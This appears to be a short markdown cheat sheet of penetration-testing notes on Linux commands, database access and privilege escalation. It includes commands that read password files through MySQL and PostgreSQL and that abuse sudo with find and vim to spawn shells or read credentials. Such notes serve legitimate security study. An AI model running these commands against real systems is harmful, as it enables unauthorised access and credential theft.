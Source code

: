 
## Day 1
#### find /dir -type f-name name -exec grep -H '^keyword' {} \;

### Decompressing files
#### tar -xjf file.tbz
#### tar -xzf file.tgz
#### bunzip2 file.bz2

### Encrypting and Decrypting files with openssl
https://robertheaton.com/2013/07/29/padding-oracle-attack/
#### openssl enc -d -aes256 -k KEY -in enc.tgz.enc -out out.tgz

#### Data stays longer in /var/tmp then /tmp dir

### Cronjobs
Never leave credentials in cron jobs.

<!-- $1 = md5crypt $5 = sha256 $6 = sha512 -->
### See services runing in a system
#### ps -edf

### Intresting Directory
#### /var/lib/mysql/mysql

### Read arbitary file when logged in as mysql using load_file() function
#### SELECT LOAD_FILE('/var/lib/password.txt');

### Postgresql 
#### psql 

| List Database | Connect To Database | List Tables | Read Data from Tables | Create Table |
| ---|---| --- | --- | --- |
| \list | \c database_name | \d | SELECT * FROM table_name; | CREATE TABLE tname(column data); |

| Copy Arbitary File to Table | DELETE TABLE |
| --- | --- |
| COPY tname '/etc/passwd'; | DROP TABLE tname; |

### Sqlite 
Poratble Database
|List Tables| Read Data From Table |
|---| -- |
|.tables| SELECT * FROM tablename;|

### Privilege Escalation abusing find command
##### sudo -u user find /etc -name passwd -type f -exec bash \;
##### sudo -u user find /usr/bin -name password.txt -type f -exec cat {} \;

### Privilege Escalation abusing vim
##### sudo -u user vim -c ':!/bin/sh'

### Create wordlist for testing opensource projects
#### find | sed 's/\.//g' > ffufwordlist.txt

